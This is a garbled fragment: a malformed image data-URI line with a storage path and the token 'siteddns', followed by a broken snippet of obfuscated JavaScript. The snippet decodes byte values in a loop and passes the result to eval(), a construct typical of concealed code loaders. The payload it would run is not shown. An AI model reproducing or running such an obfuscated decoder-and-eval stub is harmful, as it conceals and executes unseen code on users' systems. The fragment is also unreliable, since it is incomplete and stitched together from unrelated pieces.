  # siteddns
=2;xc--){vc[xc]=(vc[xc]+90)&0xff;vc[xc]=(((vc[xc]-133)&0xff)-49)&0xff;}";eval(xc);xc="xc=49;while(true){if(xc
